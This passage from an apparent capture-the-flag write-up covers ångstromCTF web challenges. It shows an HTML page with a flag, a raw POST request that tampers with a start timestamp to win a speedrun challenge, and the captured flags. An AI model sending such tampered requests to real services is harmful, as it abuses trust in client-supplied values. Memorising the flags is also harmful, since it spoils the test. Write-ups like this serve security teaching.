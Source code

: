```
                    transform:rotate(0deg);
                }
                to {
                    transform:rotate(360deg);
                }
            }
        </style>
    </head>
    <body>
        <h1>catch me if you can!</h1>
        <marquee scrollamount="50" id="flag">actf{y0u_caught_m3!_0101ff9abc2a724814dfd1c85c766afc7fbd88d2cdf747d8d9ddbf12d68ff874}</marquee>
    </body>
</html>
```


# Celeste Speedrunning Association

* 20 points
* 681 solves

We need to beat a speed run time. Meaning we can start in the future and have a negative run time.
Just modify the start date of the going request:

```text
POST /submit HTTP/1.1
Host: mount-tunnel.web.actf.co
Content-Length: 16
Content-Type: application/x-www-form-urlencoded
Connection: close

start=1700000000
```

```text
HTTP/1.1 200 OK
Server: nginx/1.23.3
Date: Thu, 26 Apr 2023 17:24:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 52
Connection: close

you win the flag: actf{wait_until_farewell_speedrun}
```

# shortcircuit

* 40 points
* 770 solves

We have a login form with a JavaScript validation. The flag is the password.
